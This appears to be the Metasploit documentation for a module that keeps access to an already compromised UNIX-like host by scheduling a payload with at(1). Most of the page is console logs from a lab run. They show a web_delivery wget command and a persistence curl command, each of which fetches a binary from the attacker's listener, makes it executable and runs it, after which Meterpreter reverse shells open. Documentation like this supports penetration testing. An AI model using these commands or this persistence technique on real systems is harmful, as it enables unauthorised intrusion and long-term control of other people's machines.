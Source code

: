 ## Vulnerable Application

This module executes a metasploit payload utilizing `at(1)` to execute jobs at a specific time.  It should work out of the box
with any UNIX-like operating system with `atd` running.  

### OSX

In the case of OS X, the `atrun` service must be launched:

```
sudo launchctl load -w /System/Library/LaunchDaemons/com.apple.atrun.plist
```

### Kali

`at` isn't installed by default. `sudo apt-get install at`.

## Verification Steps

1. Start msfconsole
2. Exploit a box via whatever method
3. Do: `use exploit/multi/persistence/at`
4. Do: `set session #`
5. `exploit`


## Options

  **TIME**

  When to run job via `at(1)`.  Conforms to timespec. Examples can be found in the module's references.

## Scenarios

### Kali Linux

Initial access vector via web delivery

```
[*] Processing /home/mtcyr/.msf4/msfconsole.rc for ERB directives.
resource (/home/mtcyr/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/home/mtcyr/.msf4/msfconsole.rc)> setg lhost 192.168.10.144
lhost => 192.168.10.144
resource (/home/mtcyr/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/home/mtcyr/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/home/mtcyr/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/home/mtcyr/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/home/mtcyr/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/home/mtcyr/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 192.168.10.144:4545 
[*] Using URL: http://192.168.10.144:8181/PaulWjhBSpRlqAz
[*] Server started.
[*] Run the following command on the target machine:
wget -qO o20dAbhk --no-check-certificate http://192.168.10.144:8181/PaulWjhBSpRlqAz; chmod +x o20dAbhk; ./o20dAbhk& disown
[msf](Jobs:2 Agents:0) exploit(multi/script/web_delivery) > 
[*] 192.168.10.144   web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.10.144
[*] Meterpreter session 1 opened (192.168.10.144:4545 -> 192.168.10.144:42442) at 2025-02-06 11:40:00 -0500

[msf](Jobs:2 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : 192.168.10.144
OS           : Debian  (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:2 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/persistence/at 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > set time "now +10 minutes"
time => now +10 minutes
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > set session 1
session => 1
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > exploit
[*] Command to run on remote host: curl -so ./tmoAoATss http://192.168.10.144:8080/aZRe4yWUN3U2-lDtdsaGlA;chmod +x ./tmoAoATss;./tmoAoATss&
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > [*] Fetch handler listening on 192.168.10.144:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 192.168.10.144:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. at(1) confirmed to be usable as a persistence mechanism
[*] Writing payload to /tmp//YneHFC
[*] Waiting for execution
[*] Meterpreter-compatible Cleaup RC file: /home/mtcyr/.msf4/logs/persistence/192.168.10.144_20250206.4241/192.168.10.144_20250206.4241.rc

[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > date
[*] exec: date

Thu Feb  6 11:42:44 AM EST 2025
[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > 
[*] Client 192.168.10.144 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 192.168.10.144 (curl/8.11.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.10.144
[*] Meterpreter session 2 opened (192.168.10.144:4444 -> 192.168.10.144:36212) at 2025-02-06 11:52:00 -0500

[msf](Jobs:3 Agents:2) exploit(multi/persistence/at) > date
[*] exec: date

Thu Feb  6 11:52:20 AM EST 2025
```